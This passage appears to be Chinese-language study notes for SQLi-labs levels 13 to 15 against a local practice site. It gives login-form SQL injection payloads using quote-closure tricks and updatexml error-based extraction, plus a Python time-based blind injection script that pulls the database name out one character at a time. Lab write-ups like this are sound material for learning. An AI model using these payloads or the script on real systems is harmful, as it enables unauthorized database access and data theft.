 paylod: `uname=admin") and 1=1;--+&passwd=`

闭合换一下 同上

### 13-Double Injection- String- with twist

登陆成功无信息回显，使用`updataxml`进行报错注入

`uname=admin') and updatexml(1,concat(0x0a,(select database())),1);--+&passwd=123` > 出库名 后续不做演示

### 14-Double Injection- Double quotes- String

改一下闭合方式

`unmae=admin" and updatexml(1,concat(0x0a,(select database())),1);--+&passwd=123`

### 15-Blind- Boolian Based- String

修改一下盲注的脚本

```python
# BLINE INJECT

import time
import requests


def blind_inject(url, loc, mid, comp='>', target='database()'):
    data = {
        'uname': f"admin' and if(ascii(substr({target},{loc},1)){comp}{mid}, sleep(0.02), 0); -- ",
        'passwd': "123",
    }
    time_start = time.time()
    req = requests.post(url=url, data=data)
    time_end = time.time()
    if time_end - time_start > 0.01:
        return 1
    else:
        return 0


url = "http://localhost/Less-15/"
res = ""
end = 0
for i in range(1, 1000):
    l = 32
    r = 126
    while l < r:
        mid = (l + r) // 2
        target = "database()"
        if blind_inject(url, i, mid, target=target):
            l = mid + 1
        else:
            r = mid

        # check end
        if l >= r:
            target = "database()"
            if not blind_inject(url, i, l, '=', target=target):
                end = 1
    if end:
        break
    res += chr(l)
    print(res)
```
